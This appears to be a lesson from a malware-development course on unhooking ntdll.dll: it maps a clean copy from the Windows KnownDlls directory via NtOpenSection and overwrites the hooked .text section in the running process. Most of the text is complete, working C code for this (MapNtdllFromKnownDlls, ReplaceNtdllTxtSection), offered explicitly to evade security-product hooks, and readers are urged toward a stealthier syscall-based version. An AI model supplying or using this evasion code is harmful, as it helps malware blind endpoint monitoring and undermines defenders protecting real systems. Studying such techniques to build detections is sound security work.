





Introduction
Another way to obtain a clean version of ntdll.dll is by accessing it from the KnownDlls directory. This directory contains a set of frequently used system DLLs that the Windows loader leverages to optimize the application startup process. The loader maps the DLLs from KnownDlls directly into the starting processes, which are already present in memory. This approach saves memory and reduces computational resources by eliminating the need for mapping each required DLL from the disk.
In Windows XP and older, the KnownDlls directory was located in the C:\Windows\System32 folder. Newer versions of Windows have the directory built into the OS and therefore the directory is not directly accessible. A list of known DLLs can be found in the HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs registry key as per Microsoft's documentation.
Viewing KnownDlls Using WinObj
The WinObj tool can be used to view the contents of the KnownDlls directory. This is demonstrated in the image below.

Retrieving Ntdll.dll From KnownDlls
DLLs stored in the KnownDlls directory can be retrieved and mapped to the local process memory using a handle. This is achieved programmatically through the use of two WinAPI functions: OpenFileMapping to obtain the section handle of ntdll.dll, and MapViewOfFile to map ntdll.dll to memory.
Using the OpenFileMapping WinAPI will always fail with the error ERROR_BAD_PATHNAME. As of writing this module, the reason is still unknown. However, an alternative method is to simply use its native function, NtOpenSection.
This is a good example of using syscalls instead of WinAPIs to perform tasks that are unavailable with WinAPIs.
Using NtOpenSection
The NtOpenSection function is shown below.
NTSTATUS NtOpenSection(
OUT PHANDLE SectionHandle,
IN ACCESS_MASK DesiredAccess,
IN POBJECT_ATTRIBUTES ObjectAttributes
);NtOpenSection's parameters are explained below.
SectionHandle - A pointer to a HANDLE variable that receives a handle to the section object.DesiredAccess - A value that determines the requested access to the object. This value is of type ACCESS_MASK. For NTDLL unhooking, this parameter should be set to SECTION_MAP_READ since \KnownDlls\ntdll.dll image will only be read.ObjectAttributes - A pointer to an OBJECT_ATTRIBUTES structure that specifies the object name and other attributes. This parameter is initialized using the InitializeObjectAttributes macro.InitializeObjectAttributes
As mentioned above, ObjectAttributes must be initialized using InitializeObjectAttributes in order to use NtOpenSection.
VOID InitializeObjectAttributes(
[out] POBJECT_ATTRIBUTES p,
[in] PUNICODE_STRING n,
[in] ULONG a,
[in] HANDLE r, // Set to NULL
[in, optional] PSECURITY_DESCRIPTOR s // Set to NULL
);InitializeObjectAttributes's parameters are also shown below.
p - A pointer to an empty OBJECT_ATTRIBUTES structure that will be initialized.n - A pointer to a UNICODE_STRING structure that contains the name of the object for which a handle is to be opened.a - Should be set to OBJ_CASE_INSENSITIVE to perform a case-insensitive comparison for the name of the object for which a handle is to be opened.To properly use the n parameter, which is a UNICODE_STRING structure, the buffer member must be initialized as "\KnownDlls\ntdll.dll" (wide string format). The length member should be the size of the buffer in bytes. This initialization can be achieved using the code snippet below:
UNICODE_STRING.Buffer = (PWSTR)L"\KnownDlls\ntdll.dll";
UNICODE_STRING.Length = wcslen(L"\KnownDlls\ntdll.dll") * sizeof(WCHAR); // calculating the size of the string used in bytes
UNICODE_STRING.MaximumLength = UniStr.Length + sizeof(WCHAR); // '.MaximumLength' can be the same as '.Length'MapNtdllFromKnownDlls Function
The MapNtdllFromKnownDlls function is used to retrieve ntdll.dll from the KnownDlls directory. It accepts a single parameter, ppNtdllBuf, which will be set to the base address of the mapped view of the ntdll.dll file.
MapNtdllFromKnownDlls handles the parameters required for NtOpenSection before passing its output to MapViewOfFile, which is used to map ntdll.dll to local memory. The function returns a value of FALSE if it fails and TRUE if it succeeds.
#define NTDLL L"\\KnownDlls\\ntdll.dll"typedef NTSTATUS (NTAPI* fnNtOpenSection)(
PHANDLE SectionHandle,
ACCESS_MASK DesiredAccess,
POBJECT_ATTRIBUTES ObjectAttributes
);
BOOL MapNtdllFromKnownDlls(OUT PVOID* ppNtdllBuf) {
HANDLE hSection = NULL;
PBYTE pNtdllBuffer = NULL;
NTSTATUS STATUS = NULL;
UNICODE_STRING UniStr = { 0 };
OBJECT_ATTRIBUTES ObjAtr = { 0 };
// constructing the 'UNICODE_STRING' that will contain the '\KnownDlls\ntdll.dll' string
UniStr.Buffer = (PWSTR)NTDLL;
UniStr.Length = wcslen(NTDLL) * sizeof(WCHAR);
UniStr.MaximumLength = UniStr.Length + sizeof(WCHAR);
// initializing 'ObjAtr' with 'UniStr'
InitializeObjectAttributes(&ObjAtr, &UniStr, OBJ_CASE_INSENSITIVE, NULL, NULL);
// getting NtOpenSection address
fnNtOpenSection pNtOpenSection = (fnNtOpenSection)GetProcAddress(GetModuleHandle(L"NTDLL"), "NtOpenSection");
// getting the handle of ntdll.dll from KnownDlls
STATUS = pNtOpenSection(&hSection, SECTION_MAP_READ, &ObjAtr);
if (STATUS != 0x00) {
printf("[!] NtOpenSection Failed With Error : 0x%0.8X \n", STATUS);
goto _EndOfFunc;
}
// mapping the view of file of ntdll.dll
pNtdllBuffer = MapViewOfFile(hSection, FILE_MAP_READ, NULL, NULL, NULL);
if (pNtdllBuffer == NULL) {
printf("[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
goto _EndOfFunc;
}
*ppNtdllBuf = pNtdllBuffer;
_EndOfFunc:
if (hSection)
CloseHandle(hSection);
if (*ppNtdllBuf == NULL)
return FALSE;
else
return TRUE;
}Putting It All Together
Now that an unhooked version of ntdll.dll has been loaded into the process's memory, the ReplaceNtdllTxtSection function shown in the previous module will be used to replace the text section of the hooked ntdll.dll with the newly unhooked one. The only difference is that the pUnhookedNtdll parameter now contains the base address of the NTDLL module fetched from the KnownDlls directory, rather than from disk.
Note that the text section of the KnownDlls ntdll.dll has an offset of IMAGE_SECTION_HEADER.VirtualAddress (4096), which explains the usage of pSectionHeader[i].VirtualAddress to retrieve the address of the text section (pRemoteNtdllTxt) in the code below.
PVOID FetchLocalNtdllBaseAddress() {
#ifdef _WIN64
PPEB pPeb = (PPEB)__readgsqword(0x60);
#elif _WIN32
PPEB pPeb = (PPEB)__readfsdword(0x30);
#endif // _WIN64// Reaching to the 'ntdll.dll' module directly (we know its the 2nd image after 'KnownDllUnhooking.exe')
// 0x10 is = sizeof(LIST_ENTRY)
PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
return pLdr->DllBase;
}
BOOL ReplaceNtdllTxtSection(IN PVOID pUnhookedNtdll) {
PVOID pLocalNtdll = (PVOID)FetchLocalNtdllBaseAddress();
// getting the dos header
PIMAGE_DOS_HEADER pLocalDosHdr = (PIMAGE_DOS_HEADER)pLocalNtdll;
if (pLocalDosHdr && pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return FALSE;
// getting the nt headers
PIMAGE_NT_HEADERS pLocalNtHdrs = (PIMAGE_NT_HEADERS)((PBYTE)pLocalNtdll + pLocalDosHdr->e_lfanew);
if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return FALSE;
PVOID pLocalNtdllTxt = NULL, // local hooked text section base address
pRemoteNtdllTxt = NULL; // the unhooked text section base address
SIZE_T sNtdllTxtSize = NULL; // the size of the text section
// getting the text section
PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pLocalNtHdrs);
for (int i = 0; i < pLocalNtHdrs->FileHeader.NumberOfSections; i++) {
// the same as if( strcmp(pSectionHeader[i].Name, ".text") == 0 )
if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {
pLocalNtdllTxt = (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
pRemoteNtdllTxt = (PVOID)((ULONG_PTR)pUnhookedNtdll + pSectionHeader[i].VirtualAddress);
sNtdllTxtSize = pSectionHeader[i].Misc.VirtualSize;
break;
}
}
//---------------------------------------------------------------------------------------------------------------------------
// small check to verify that all the required information is retrieved
if (!pLocalNtdllTxt || !pRemoteNtdllTxt || !sNtdllTxtSize)
return FALSE;
// small check to verify that 'pRemoteNtdllTxt' is really the base address of the text section
if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt)
return FALSE;
//---------------------------------------------------------------------------------------------------------------------------
DWORD dwOldProtection = NULL;
// making the text section writable and executable
if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
return FALSE;
}
// copying the new text section
memcpy(pLocalNtdllTxt, pRemoteNtdllTxt, sNtdllTxtSize);
// rrestoring the old memory protection
if (!VirtualProtect(pLocalNtdllTxt, sNtdllTxtSize, dwOldProtection, &dwOldProtection)) {
printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
return FALSE;
}
return TRUE;
}Improving The Implementation
The current implementation unhooks ntdll.dll using WinAPIs. For a stealthier implementation, direct or indirect syscalls should be used to perform unhooking. This will be left as an objective for the reader.
Demo
The mapped ntdll.dll file from the KnownDlls directory.

The hooked ntdll.dll text section to be replaced.

The text section base address of the unhooked ntdll.dll.

Replacing the text section.
